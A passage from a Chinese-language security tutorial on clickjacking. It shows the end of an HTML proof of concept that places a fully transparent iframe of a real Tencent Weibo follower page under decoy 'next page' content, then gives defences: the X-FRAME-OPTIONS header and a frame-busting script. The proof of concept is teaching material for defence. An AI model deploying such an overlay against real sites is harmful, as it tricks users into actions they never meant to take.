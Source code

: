 	      <font color="”#AA00DD″" size="22">腾讯微博 clickjacking attack </font> 
	    </div> 
	    <div style="position:absolute;color:#00ff00;top:184px;left:579px"> 
	      <div style="color:red">
	        下一页
	      </div> 
	      <img src="http://www.baidu.com/img/bdlogo.gif" /> 
	    </div> 
	    <div>
	      <iframe id="target" src="http://t.qq.com/lenglengdy/follower#mainWrapper" style="position:absolute;width:100%;height:500px;left:200px;filter:alpha(opacity=0.0);opacity:0.0;"></iframe>
	    </div>  
	    <div style="position:absolute;top:440px;left:550px;"> 
	      <input id="showHide_frame" type="checkbox" onclick="showHide_frame.call(this);" /> 
	      <label for="showHide_frame"> Show the jacked I--Frame </label> 
	    </div> 
	  </body>
	</html>
**5、修复方案**

---
X-FRAME-OPTIONS

X-FRAME-OPTIONS是微软提出的一个http头，专门用来防御利用iframe嵌套的点击劫持攻击。

并且在IE8、Firefox3.6、Chrome4以上的版本均能很好的支持。

这个头有三个值：

	DENY               // 拒绝任何域加载
	SAMEORIGIN         // 允许同源域下加载
	ALLOW-FROM         // 可以定义允许frame加载的页面地址
	php中设置示例：

header ("X-FRAME-OPTIONS:DENY");
目前最好的js的防御方案为：

	<head>
	<style> body { display : none;} </style>
	</head>
	<body>
	<script>
	if (self == top) {
	  var theBody = document.getElementsByTagName('body')[0];
	  theBody.style.display = "block";
	} else {
	  top.location = self.location;
	}
	</script>
	
6、相关资源
[Clickjacking Tool](http://zone.wooyun.org/content/3858)

[Clickjacking简单介绍](http://drops.wooyun.org/papers/104)
